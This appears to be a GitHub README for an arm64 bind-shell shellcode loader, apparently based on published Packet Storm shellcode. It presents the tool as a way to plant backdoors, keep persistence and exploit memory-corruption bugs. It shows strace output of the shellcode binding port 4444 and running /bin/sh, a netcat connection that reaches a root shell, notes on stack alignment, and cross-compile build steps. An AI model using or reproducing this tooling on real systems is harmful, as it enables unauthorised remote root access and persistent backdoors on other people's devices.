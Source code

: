 # arm64_bind_shellcode
C program to map arm64 bind shell code into memory and execute code

## This will only work on target arm64 device. Fixed stack management issues in original assembler code.

Source code for mapping bind shell code into memory and executing the mapped shell code.
The arm64 code was tested on a Raspberry Pi running Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-1062-raspi2 aarch64).

## License

Please see the (LICENSE) file for the exact details.

## bind-shellcode-mapped 

## About

The C program bind-shellcode-mapped loads an array of arm-64 bind shell code and execute in memory mapped location.  After relocating the shell code this code is invoked as a C function. A bind shell is a shell that binds to a specific port on the target host to listen for incoming connections.

A bind shell is used to create a listening port on a target machine, that can be later accessed via the network and interact with a system shell. This is a common technique for creating backdoors and maintaining persistence on a target machine.

This will demonstrate how to create a bind shell then move further to create the bind shell and map it into memory.  This program will accept incoming connection a execute a shell to the remote connection.

Now the shell code assembler source code has been modified to directly perform the system call by substituting the execve with the linux system call number.  Additionally, the null bytes have been removed from the code.  This will allow the shell code to be used to exploit memory corruption vulnerabilities.

This program can be ran as a shell or root user.

In the first terminal on the arm64 trget start the bind shell code mapped program

    On the Target run the bind-shellcode-mapped program
    Start the server as root on the target
    $ su
    passphrase
    # strace -e execve,socket,bind,listen,accept,dup2 ./bind-shellcode-mapped 
    execve("./bind-shellcode-mapped", ["./bind-shellcode-mapped"], 0xfffff57e5850 /* 19 vars */) = 0
    Shellcode Length: 164 Bytes
    socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
    listen(3, 2)                            = 0
    accept(3, NULL, NULL)                   = 4
    execve("/bin/sh", NULL, NULL)           = 0
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15079, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=15080, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    +++ exited with 0 +++

In another terminal on the arm64 target use netstat to identify the active ports on the target.   The program bind-shell can be seen running on port 4444.  Next start netcat to connect to port 4444.  If the connection succeeds user interaction will reveal a root shell (without prompt) as shown below.
       
    $ netstat -tlpn
    (Not all processes could be identified, non-owned process info
    will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    
    $ netcat -nv 0.0.0.0 4444
    Connection to 0.0.0.0 4444 port [tcp/*] succeeded!
    whoami 
    root
    id
    exit

## Stack Management Issues

For AArch64, sp must be 16-byte aligned whenever it is used to access memory. This is enforced by AArch64 hardware.

// Broken AArch64 implementation of `push {x1}; push {x0};`.
str   x1, [sp, #-8]!  // This works, but leaves `sp` with only 8-byte alignment
str   x0, [sp, #-8]!  // ... so the second `str` will fail.

C compilers will typically reserve stack space at the start of the function, then leave sp alone until the end, so the restriction is not as awkward as it first seems. However, you must be aware of it when handling assembly code.

It sounds wasteful – and in most cases it is – but the simplest way to handle the stack pointer can be to push each value to a 16-byte slot. This doubles the stack usage (for pointer-sized values), and it effectively reduces the available memory bandwidth. It is also awkward to implement multiple-register operations using this scheme, since each register requires a separate instruction.

## Sources: sc_mapped

Credit to Ken Kitahara for the use of his source code.

https://packetstormsecurity.com/files/153461/Linux-ARM64-Bind-4444-TCP-Shell-bin-sh-Null-Free-Shellcode.html

Max Compston, Embedded Software Solutions.

## Building this Release

The source code for this program is built using CMake.  

The source code for the arm64 target are cross compiled using gnu arm64 compiler, below.  First in install the cross-compiler on the host.

$ sudo apt-get install gcc-aarch64-linux-gnu g++-aarch64-linux-gnu

Next, set up the host to cross-compile arm64 creating a toolchain-aarch64-linux-gnu.cmake file in your home directory.  Add the following:

#- this one is important
SET(CMAKE_SYSTEM_NAME Linux)
SET(CMAKE_SYSTEM_PROCESSOR arm64)

#- specify the cross compiler
SET(CMAKE_C_COMPILER   /usr/bin/aarch64-linux-gnu-gcc)
SET(CMAKE_CXX_COMPILER /usr/bin/aarch64-linux-gnu-g++)

#- where is the target environment
SET(CMAKE_FIND_ROOT_PATH  /user/aarch64-linux-gnu)

#- search for programs in the build host directories
SET(CMAKE_FIND_ROOT_PATH_MODE_PROGRAM NEVER)

#- for libraries and headers in the target directories
SET(CMAKE_FIND_ROOT_PATH_MODE_LIBRARY ONLY)
SET(CMAKE_FIND_ROOT_PATH_MODE_INCLUDE ONLY)

To build the cross-compiled arm64 program navigate to the build directory and run cmake as follows:

$ cmake -DCMAKE_TOOLCHAIN_FILE=~/toolchain-aarch64-linux-gnu.cmake .. && make
